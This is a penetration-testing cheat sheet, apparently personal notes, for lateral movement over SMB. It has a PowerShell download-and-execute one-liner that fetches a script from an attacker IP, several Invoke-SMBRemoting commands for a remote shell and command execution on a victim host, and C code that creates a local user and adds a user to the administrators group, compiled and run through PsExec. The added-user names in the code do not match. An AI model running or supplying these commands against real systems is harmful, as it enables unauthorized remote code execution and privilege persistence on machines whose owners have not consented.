 # Powershell Implementation
*NOTE: We need admin access to SMB on the victim, can be abused using also injected kerberos ticket!*

Source: https://github.com/Leo4j/Invoke-SMBRemoting

- Invoke the script: `iex(iwr http://192.168.45.223/Invoke-SMBRemoting -UseBasicParsing)`

## Cheetsheet:
<ins>Interactive Shell</ins>
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose`

<ins>Command Execution</ins>
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose`

![278768338-645eaffe-e3d3-4428-b7a4-14bf95f5ddce](https://github.com/user-attachments/assets/8b986eb2-8d25-4098-a55a-763c4d802d7d)


# EXE Implementation

Save the content below as `adduser.c`:

```
#include <stdlib.h>
int main ()
{
 int i;
    i = system ("net user amit Password123! /add");
    i = system ("net localgroup administrators salar /add");
 return 0;
}
```
Compile it:
- `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

Execute: 
- `.\PsExecLat.exe file01 C:\Windows\Tasks\adduser.exe`
